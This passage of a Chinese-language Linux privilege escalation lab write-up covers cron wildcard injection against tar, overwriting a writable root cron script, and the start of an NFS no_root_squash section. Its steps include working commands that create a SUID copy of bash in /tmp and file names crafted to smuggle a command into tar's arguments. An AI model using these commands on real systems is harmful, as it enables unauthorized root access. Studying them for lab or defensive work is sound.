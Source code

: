 ```

执行：
> echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh

执行：
> chmod +x /home/user/overwrite.sh

执行：
> /tmp/bash -p

# 15.Cron (通配符)

这个条件要满足：
1. Cron任务使用了tar命令
2. 使用了通配符"*"


查看overwrite.sh脚本
```
TCM@debian:~$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *

```

依次执行：
```
TCM@debian:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
TCM@debian:~$ touch /home/user/--checkpoint=1
TCM@debian:~$ touch /home/user/--checkpoint-action=exec=sh\ runme.sh

```

当Cron触发时，实际上等同于执行：

> tar -zcf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh runme.sh 

# 16.Cron (文件覆盖)

这个思路跟14有点像，就是把提权命令追加到Cron脚本当中，前提是Cron脚本是可写的

检查权限,发现可写：
```
TCM@debian:~$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
```

追加提权命令到Cron脚本中：
> echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh

等待一分钟任务执行，执行提权：
> /tmp/bash -p

# 17.NFS

## 思路
1. NFS（网络文件共享）配置保存在 ```/etc/exports``` 文件中。该文件是在 NFS 服务器安装期间创建的，通常可以由用户读取
查看：
> cat  /etc/exports

2. 关键元素是可以在上面看到的```no_root_squash```选项
3. 默认情况下，NFS 会将 root 用户更改为 nfsnobody 并剥夺任何文件以 root 权限运行。如果“no_root_squash”选项存在于可写共享中，我们可以创建一个设置了 SUID 位的可执行文件并在目标系统上运行它.

```